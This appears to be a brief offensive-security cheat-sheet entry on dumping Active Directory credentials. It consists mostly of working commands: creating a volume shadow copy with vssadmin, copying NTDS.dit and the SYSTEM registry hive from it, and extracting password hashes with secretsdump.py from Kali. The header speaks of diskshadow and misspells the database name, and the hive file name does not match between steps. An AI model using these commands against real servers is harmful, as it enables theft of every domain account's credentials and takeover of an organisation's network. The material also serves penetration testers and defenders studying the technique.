```yaml
---
description: On Windows Server 2008+, we can use diskshadow to grab the ntdis.dit.
---
```


# vssadmin - no credential required

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration" %}

```bash
CMD> vssadmin create shadow /for=C:

Shadow Copy ID: {8bf57023-7b87-4acc-beab-1902f9705267}
Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```



```bash
<CMD> Copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp
<CMD> Copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp

Kali> secretsdump.py -ntds ntds.dit -system system.bak LOCAL
```
